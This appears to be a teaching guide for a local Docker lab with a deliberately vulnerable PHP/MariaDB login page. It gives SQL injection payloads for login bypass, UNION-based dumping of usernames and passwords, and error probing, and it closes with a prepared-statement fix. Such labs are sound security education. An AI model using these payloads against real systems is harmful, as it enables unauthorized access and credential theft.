 # SQL Injection Testing Guide

## Introduction
This guide provides step-by-step instructions on how to set up and perform SQL Injection on a vulnerable PHP-based login page running in a Docker container with a MariaDB database.

---

## Prerequisites
Before you begin, ensure you have:
- Docker installed on Windows or Ubuntu.
- The vulnerable login system running via `docker-compose`.

---

## Setup Instructions
### 1. Start the Docker Containers
Run the following command inside the project directory:
```sh
cd C:\my-sqli-lab  # Change directory (Windows)
# or
cd ~/my-sqli-lab  # Change directory (Linux)

docker-compose up -d  # Start containers
```
This will start both the **MariaDB** and **Apache/PHP** containers.

### 2. Access the Vulnerable Login Page
Open your web browser and go to:
```
http://localhost:8080/login.php
```
You should see a basic login form with **username** and **password** fields.

---

## Performing SQL Injection
The login form is vulnerable because it directly inserts user input into an SQL query without proper sanitization.

### 1. Bypassing Authentication
#### **Attack Payload:**
```
Username: ' OR 1=1; #
Password: (anything)
```
#### **Explanation:**
- `' OR 1=1` always evaluates to **true**, allowing login bypass.
- `#` is a comment in SQL, which ignores the rest of the query.
Note: Mariadb uses #, other SQL flavors might use --

### 2. Extracting User Data
#### **Attack Payload:**
```
Username: ' UNION SELECT null, username, password FROM users; --
Password: (anything)
```
#### **Explanation:**
- This UNION query combines the login check with a request for all usernames and passwords from the database.

### 3. Checking for SQL Errors
Try entering:
```
Username: '
Password: (anything)
```
If the server returns an **SQL syntax error**, it confirms the vulnerability.

---

## How to Stop the Containers
When done testing, stop the containers using:
```sh
docker-compose down
```
To remove all stored data (reset the database):
```sh
docker-compose down -v
```

---

## Preventing SQL Injection
To fix this vulnerability, use **prepared statements** in PHP instead of directly inserting user input into SQL queries.

Example (secure version):
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
```

---

## Disclaimer
This setup is for **educational purposes only**. Do not use SQL injection on unauthorized systems.

## Author
Raul Alejandro Vargas Acosta (alejandro.vargas@erau.edu)